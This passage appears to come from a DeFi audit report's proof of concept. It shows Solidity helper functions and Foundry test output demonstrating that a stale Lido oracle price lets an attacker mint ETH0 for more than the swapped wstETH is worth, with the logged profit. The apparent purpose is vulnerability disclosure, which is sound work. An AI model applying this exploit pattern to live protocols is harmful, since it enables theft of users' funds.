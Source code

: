 ```solidity
        uint8 collateralDecimals
    ) internal pure returns (uint256) { // Removed 'view' and _daoCollateralPoc dependency
        uint256 mintFeeBps = 0; // Assuming 0 mint fee as per DaoCollateral.sol logic
        uint256 collateralValueInEth = (collateralAmountIn * collateralPrice) / (10**collateralDecimals);
        uint256 feeAmount = (collateralValueInEth * mintFeeBps) / 10000;
        uint256 amountAfterFee = collateralValueInEth - feeAmount;
        return amountAfterFee;
    }

    function _calculateExpectedCollateralOut(
        uint256 eth0AmountIn,
        uint256 collateralPrice,
        uint8 collateralDecimals
    ) internal pure returns (uint256) { // Changed to pure
        uint256 burnFeeBps = 0;
        uint256 eth0ValueInEth = eth0AmountIn;
        uint256 feeAmount = (eth0ValueInEth * burnFeeBps) / 10000;
        uint256 amountAfterFee = eth0ValueInEth - feeAmount;
        uint256 collateralOut = (amountAfterFee * (10**collateralDecimals)) / collateralPrice;
        return collateralOut;
    }
}
```

## Output and Explanation

When running the command: `forge test --match-path test/poc/PocLidoOracleTimeout.t.sol -vvv`

The log output will show:
```bash
Ran 1 test for test/poc/PocLidoOracleTimeout.t.sol:PocLidoOracleTimeout
[⠢] Compiling...
No files changed, compilation skipped

Ran 1 test for test/poc/PocLidoOracleTimeout.t.sol:PocLidoOracleTimeout
[PASS] testPocLidoOracleTimeoutUsesStalePrice() (gas: 276102)
Logs:
  Attacker ETH0 balance before swap: 0
  Attacker wstETH balance before swap: 1000000000000000000000000
  Attacker ETH0 balance after swap: 1000000000000000000
  Attacker wstETH balance after swap: 999999000000000000000000
  ETH0 received by attacker: 1000000000000000000
  Value of wstETH swapped by attacker (at hypothetical true market price of 9e17): 900000000000000000
  Value of ETH0 received by attacker (protocol valued wstETH at 10e17 via oracle): 1000000000000000000
  Attacker's profit (in ETH terms, assuming ETH0 is 1:1 with ETH, based on hypothetical true market price): 100000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.10ms (1.19ms CPU time)

Ran 1 test suite in 19.02ms (6.10ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

